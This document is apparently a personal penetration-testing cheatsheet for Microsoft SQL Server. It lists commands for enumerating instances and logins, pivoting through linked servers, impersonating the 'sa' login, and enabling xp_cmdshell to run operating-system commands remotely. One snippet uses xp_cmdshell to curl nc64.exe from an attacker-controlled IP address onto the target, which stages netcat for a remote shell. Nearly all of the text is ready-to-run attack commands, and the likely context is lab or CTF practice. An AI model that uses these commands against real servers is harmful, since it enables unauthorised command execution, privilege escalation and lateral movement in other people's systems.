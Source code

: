 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"

# login current user
PS C:\mane> sqlcmd -S

# user and password
PS C:\mane> sqlcmd -S .\SQLEXPRESS -U xxx -P xxx
``

```sql
# List Databases
SELECT name FROM master..sysdatabases;

# List Tables
SELECT name FROM master..sysobjects WHERE xtype = 'U';
```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```

With `PowerUPSql.ps1`, [CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

```
Get-SQLInstanceLocal -Verbose
```

```
osql -E -S "localhost\SQLEXPRESS" -Q "select * from master..sysservers" 
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

Sometimes SQLRecon.exe have some problem with code execute.

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'

```

## osql enable cmdshell with link

```
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('sp_configure''xp_cmdshell'',1;RECONFIGURE;') AT [<remote.manesec.local>]"

osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell whoami') AT [<remote.manesec.local>];"
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell ''mkdir C:\mane''') AT [<remote.manesec.local>];"

```


## Using link and impersonal sa to enable xp_cmd

```
DECLARE @sql NVARCHAR(MAX) = N'EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''cmd /c curl http://10.10.16.25/nc64.exe -o C:\programdata\nc64.exe'';'; EXEC (@sql) AT "PRIMARY";

```


## Impackets

``` bash
select @@version;

enum_logins

use_link [COMPATIBILITY\POO_CONFIG]

# Recon
EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];

EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];

# execute as link
EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];

# execute as link on link server
EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];

# query permission
EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG]

```